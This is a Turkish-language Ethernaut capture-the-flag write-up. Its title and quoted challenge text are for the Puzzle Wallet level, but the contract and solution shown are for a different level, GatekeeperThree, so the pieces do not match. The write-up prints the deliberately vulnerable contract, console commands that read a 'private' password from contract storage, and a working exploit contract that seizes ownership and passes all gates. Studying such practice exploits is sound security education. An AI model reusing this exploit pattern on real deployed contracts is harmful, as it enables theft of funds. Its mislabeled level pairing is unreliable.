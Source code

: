 
# ETHERNAUT SORU 24: PUZZLE WALLET

>Nowadays, paying for DeFi operations is impossible, fact.
>
>A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
>
>They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.
>
>Little did they know, their lunch money was at risk…
>
>You'll need to hijack this wallet to become the admin of the proxy.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SimpleTrick {
    GatekeeperThree public target;
    address public trick;
    uint256 private password = block.timestamp;

    constructor(address payable _target) {
        target = GatekeeperThree(_target);
    }

    function checkPassword(uint256 _password) public returns (bool) {
        if (_password == password) {
            return true;
        }
        password = block.timestamp;
        return false;
    }

    function trickInit() public {
        trick = address(this);
    }

    function trickyTrick() public {
        if (address(this) == msg.sender && address(this) != trick) {
            target.getAllowance(password);
        }
    }
}

contract GatekeeperThree {
    address public owner;
    address public entrant;
    bool public allowEntrance;

    SimpleTrick public trick;

    function construct0r() public {
        owner = msg.sender;
    }

    modifier gateOne() {
        require(msg.sender == owner);
        require(tx.origin != owner);
        _;
    }

    modifier gateTwo() {
        require(allowEntrance == true);
        _;
    }

    modifier gateThree() {
        if (address(this).balance > 0.001 ether && payable(owner).send(0.001 ether) == false) {
            _;
        }
    }

    function getAllowance(uint256 _password) public {
        if (trick.checkPassword(_password)) {
            allowEntrance = true;
        }
    }

    function createTrick() public {
        trick = new SimpleTrick(payable(address(this)));
        trick.trickInit();
    }

    function enter() public gateOne gateTwo gateThree {
        entrant = tx.origin;
    }

    receive() external payable {}
}
```

Bu soruda geçmeniz gereken üç farklı kapı vardır.
1. Kapıyı geçmek için:
	* Kontraktın sahibi (owner) olmalısınız.
	* Transaction owner tarafından başlatılmamalı.
2. Kapıyı geçmek için:
	* SimpleTrick adı verilen kontrakt için doğru şifreyi bulmalısınız.
3. Kapıyı geçmek için:
	* Kapı (gate) kontraktında 0.001'den fazla ether bulunmalı.
	* Çağıran adres gönderilen etherleri kabul etmemeli.

Bu  soruyu çözmek için önce gate kontraktındaki `createTrick` fonksiyonunu çağırmamız gereklidir:
```javascript
> await contract.createTrick()
> 
> let trick_addr = await contract.trick()
// '0xD4Fb426cB28AE9B79322e1AC72Ee1f969C2CCBbf'
```
Sonrasında bulduğumuz trick kontraktının depolamasındaki (storage) 2. indise bakarak `password` değişkeninin değerini elde edebiliriz:
```javascript
> await web3.eth.getStorageAt(trick_addr, 2)
// 0x00000000000000000000000000000000000000000000000000000000664dd9e4'
```
Sorunun geri kalanını çözmek için bu üç kapıyı çözen bir `Solution` kontraktı yazacağız.
### 1. Kapı
 Bu kapıyı geçmek için Gatekeeper kontraktının sahibi olmalıyız (`owner` değişkeni yazacağımız çözüm kontraktının adresi olmalı). Bunun için kontraktta bulunan hatalı yazılmış `construct0r` fonksiyonunu çağırmamız yeterlidir. Bu kapı aynı zamanda transaction'ın owner tarafından başlatılmadığını kontrol etmektedir. Ancak transaction'u biz (EOA) başlatacağımız için ve owner yazacağımız çözüm kontraktı olacağından bu kontrol bizim için sorun teşkil etmemektedir.
### 2. Kapı
İkinci kapıyı geçmek için JavaScript konsolu yardımıyla aldığımız şifreyi göndermek yeterlidir.
### 3. Kapı
Bu kapıyı geçmek için Gatekeeper kontraktında 0.001 ether'den fazla bulunmalı. Bunun için yazacağımız çözüm kontraktının `constructor` fonksiyonunu `payable` yapıp EOA'dan gönderdiğimiz 0.002 ether'i doğrudan Gatekeeper'a iletmemiz yeterlidir. Bu kapının başka bir koşulu yazacağımız çözüm kontraktının gönderilecek herhangi ether'i kabul etmemesidir (kontraktınıza gelen ether'i kabul etmezseniz `send` fonksiyonu `false` döndürür). Bunun için ise çözüm kontraktımıza `receive` fonksiyonunu eklemeyeceğiz ve `constructor` dışında hiçbir fonksiyonu `payable` yapmayacağız.

Aşağıda yer alan Solidity kodundaki `Solution` kontraktı yukarıda bahsettiğimiz şekilde bu üç kapıyı çözmektedir.

```solidity
contract Solution {
	SimpleTrick trick;
	GatekeeperThree gate;

	constructor(address trick_addr,  address  payable gate_addr)  payable  {
		trick = SimpleTrick(trick_addr);
		gate = GatekeeperThree(gate_addr);
		gate_addr.transfer(msg.value);
	}

	function solve()  public  {
		require(trick.checkPassword(0x664dd9e4), "Password failed.");  // check password
		gate.getAllowance(0x664dd9e4);  // submit password
		gate.construct0r(); // gain ownership
		require(gate.owner()  ==  address(this), "Failed ownership.");
		gate.enter();
	}
}
```
